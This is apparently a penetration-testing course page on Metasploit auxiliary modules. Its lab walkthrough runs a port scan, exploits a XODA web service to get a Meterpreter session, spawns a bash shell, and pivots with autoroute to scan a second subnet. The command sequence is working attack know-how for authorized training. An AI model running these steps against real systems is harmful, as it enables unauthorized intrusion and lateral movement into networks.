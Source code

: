 # iii - Enumeration

### **Auxiliary Modules**

* Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing.
* We can use auxiliary modules to perform both TCP & UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP, etc.
* Auxiliary modules can be used during the information gathering phase of a penetration test as well as during the post exploitation phase.
* We can also use auxiliary modules to discover hosts and perform port scanning on a different network subnet after we have obtained initial access on a target system.

### **Lab Infrastructure**

* Our objective is to utilize auxiliary modules to discover open ports on our first target?
* The next step will involve exploiting the service running on the target in order to obtain a foothold.
* We will then utilize our foothold to access other systems on a different network subnet (pivoting).
* We will then utilize auxiliary modules to scan of open ports on the second target.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## **Practical Demonstration**

```bash
# systemctl start postgresql && msfconsole
db_status # check if postgresql db is running.
workspace -a port_scan # create a new workspace for this session.
search portscan # search for the portscan auxiliary module or you can use the "db_nmap".
use 5 # select the tcp portscan.
set RHOSTS $ip
set PORTS 1-10000 # ports range
run

# in this case we just have a cmd line access, so we cant use a browser to view the web server, but we can use "curl" utility instead.
curl <targetIP> #Download the webpage (if the host is hosting one).

# we discovered the web server is running "xoda"
msf5 > search xoda 
msf5 > use 0
options
set RHOSTS $ip
set TARGETURI / # setting the URI to the root.
exploit # we get a meterpreter session.
sysinfo

# Now we want to scan the 2nd victim pc's ports, so we need to find out the private network ip addr (subnet) that the target victim pc is a part of.
shell # inorder to do that, we spawn a shell session.
/bin/bash -i # get a bash shell.
ifconfig # we saw another ip subnet on interface (eth1).
ctrl + z # exit the shell session, take note of the ip addr.

# back to our meterpreter session.
# we can add a route to the victim2 ip subnet from our meterpreter session.
# run autoroute -s 192.113.124.2 --> we just add a route to the target host PC.
msf5 > run autoroute -s <subnetTargetIP> #Route the traffic to the subnet's target IP address of the first target previously exploited

background # put the running session in background.
sessions # view current sessions.

# search portscan
use 5
set RHOSTS $ip_victim2 # because we already added a route to this network, we are simply performing the scan through "Victim1" PC.
run
# we can now scan other subnets on a network.

search udp-sweep # a module for udp scans.
use 0
set RHOSTS $ip_victim1 or $ip_victim2
```



